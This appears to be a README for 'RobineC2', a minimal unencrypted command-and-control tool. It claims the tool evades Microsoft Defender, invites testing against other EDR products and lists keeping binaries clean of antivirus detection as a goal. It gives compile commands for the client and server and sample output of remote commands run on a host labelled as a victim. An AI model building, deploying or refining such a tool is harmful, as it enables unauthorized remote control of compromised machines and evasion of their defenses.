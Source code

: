 # RobineC2

 +-+-+-+-+-+-+-+-+-+
 |R|O|B|I|N|E|-|C|2|
 +-+-+-+-+-+-+-+-+-+
                                                                                
                                                  
**Cheap and fast C2, nothing is encrypted, and sometimes going back to the basics yields some funny results.**
- Tested in a lab with Defender, and it works. (Security intelligence Version: AV: 1.399.939.0, AS: 1.399.939.0, NIS: 1.399.939.0
 	Engine Version: AM: 1.1.23090.2007, NIS: 1.1.23090.2007)
- It would probably bypass the other EDR, who knows, if you can test it tell me.
- Simple works fine sometimes.

**TODO:**
- Add more information from the compromised host and report back to the server.
- Encryption between client and server.
- Some form of GUI for the server.
- Other stuff.
- Keep the binaries clean of static antivirus detection engines.
  
**How to compile**

```
cl client.cpp /EHsc /link ws2_32.lib
cl server.cpp /EHsc /link ws2_32.lib
```

```
c:\batmanismad\server.exe
Waiting for client connection...
Enter OS command to send: dir
Command Output:
 Volume in drive C has no label.
 Volume Serial Number is 1337-1337

 Directory of C:\Users\batman\Desktop

10/19/2023  01:24 PM    <DIR>          .
10/19/2023  01:24 PM    <DIR>          ..
10/16/2023  08:19 AM         1,939,696 windowsupdate.cpl
09/29/2022  08:26 PM         2,774,440 Bginfo64.exe
08/27/2023  01:50 PM             1,965 Process Lover 2.lnk
10/18/2023  08:02 AM             7,680 SharpMoneyMaker.exe
               5 File(s)      4,832,325 bytes
               2 Dir(s)  100,727,209,984 bytes free

Enter OS command to send: hostname
Command Output:
WIN10-VICTIME-BATMAN
```
